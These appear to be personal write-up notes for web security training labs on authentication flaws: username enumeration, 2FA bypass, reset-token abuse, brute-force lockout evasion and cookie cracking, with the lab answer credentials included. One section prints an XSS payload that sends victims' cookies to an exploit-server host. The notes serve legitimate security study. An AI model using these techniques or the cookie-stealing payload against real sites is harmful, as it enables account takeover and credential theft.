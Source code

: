### Username enumeration via different responses

username:austin
password:football

---
### 2FA simple bypass

Log in the wiener account. Then check the url `/my-account` then enter with carlos montoya, and navigate manually to that endpoint. 

---
### Password reset broken logic

Complete all the forgot password flow, and in the `/forgot-password?temp-forgot-password-token=TOKEN` and replace the username in the body for the "carlos" one.

Replace the password, and log into his account.

---
### Username enumeration via subtly different responses

In the Intruder settings, select "Grep - Extract" and select "Invalid username or password.". Send the attack, and you'll see there is a different one. 
username: ad
password: klaster

---
### Username enumeration via response timing

Add the "Response completed" column, and filter for the time the answer took to complete. Bare in mind I'm using a password 100 characters long. 

username: atlas
password: 1234

---
### Broken brute-force protection, IP block

Here the application will block you for 1 minute if you try to bruteforce. But this timer resets if you input valid credentials. So, to brute force the user "carlos" create a payload like this 

```text
wiener
carlos
wiener
carlos
```

and use a password payload switching with the correct password for wiener. So for each time this happens, it'll reset the blocker.

```text
peter
123
peter
asdasd
```

username: carlos
password: hunter

---
### Username enumeration via account lock

1. With Burp running, investigate the login page and submit an invalid username and password. Send the `POST /login` request to Burp Intruder.
2. Select the attack type **Cluster bomb**. Add a payload position to the `username` parameter. Add a blank payload position to the end of the request body by clicking **Add §** twice. The result should look something like this:
`username=§invalid-username§&password=example§§`
3. On the **Payloads** tab, add the list of usernames to the first payload set. For the second set, select the **Null payloads** type and choose the option to generate 5 payloads. This will effectively cause each username to be repeated 5 times. Start the attack.
4. In the results, notice that the responses for one of the usernames were longer than responses when using other usernames. Study the response more closely and notice that it contains a different error message: `You have made too many incorrect login attempts.` Make a note of this username.
5. Create a new Burp Intruder attack on the `POST /login` request, but this time select the **Sniper** attack type. Set the `username` parameter to the username that you just identified and add a payload position to the `password` parameter.
6. Add the list of passwords to the payload set and create a grep extraction rule for the error message. Start the attack.
7. In the results, look at the grep extract column. Notice that there are a couple of different error messages, but one of the responses did not contain any error message. Make a note of this password.
8. Wait for a minute to allow the account lock to reset. Log in using the username and password that you identified and access the user account page to solve the lab.

athena:soccer

---
### 2FA broken logic

Copy the /login2 POST, send to intruder. Change the verify with "carlos" instead of wiener. 

and add as a body: `mfa-code=1234`

The 1234 will be your payload position on the intruder. Send it. As soon as you have the 302, show response in browser. You're in.

---
### Brute-forcing a stay-logged-in cookie

Click on the "Stay logged in" option when logging in. Inspect the cookie assigned on the inspector, and see it's "wiener:51dc30ddc473d43a6011e9ebba6ca770"

It's a good guess to say the cookie is being constructed like this:
`base64(username+':'+md5HashOfPassword)`

Si, in the intruder, replace your name in the queryString in /my-account?id=wiener with "carlos", and add a payload position in the stay-logged-in cookie.

Add the list of passwords as payloads, and in "Payload processing" set it like this:
![[Pasted image 20240731004425.png]]

And in settings, set a "Grep Match" with "Update email".

Start the attack. You should see a 200 response. 

---
### Offline password cracking

Notice the "stay-logged-in" cookie is Base64 encoded.
`d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw` => `wiener:51dc30ddc473d43a6011e9ebba6ca770`

Notice the "comment" is vulnerable to XSS. 
This is you payload to exfiltrate the victim's cookie:

`<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>`

In the access log, you should see the cookie. After decode it from base64, and paste the hash in crackstation, you have `carlos:onceuponatime`

---
### Password reset poisoning via middleware

After investigating the "password reset" functionality, you can see there is a link containing a unique reset token is sent via email.

Notice the "X-Forwarded-Host" is allowed, so you can send the response to any host. Set it to point to the exploit server.

You should receive the `temp-forgot-password-token` value. Take the request pointing to GET /forgot-password?temp-forgot-password-token= and paste this received value.
Open this request in the browser.

Change the password and login as Carlos

---
### Password brute-force via password change

Observe that the username is submitted as hidden input in the request. This means when you change the password, even though is asking just for the passwords, it also sends the username.

If you enter a wrong current password, it says "Current password is incorrect" and if mew passwords don't match, it says "New passwords do not match".

Use this errors to brute force the password for carlos. Send the POST /my-account/change-password to intruder, with this body:

`username=carlos&current-password=§incorrect-password§&new-password-1=123&new-password-2=abc`

Payload list is the one the lab gives, and add a grep match "New passwords do not patch".

Your password is "thunder"


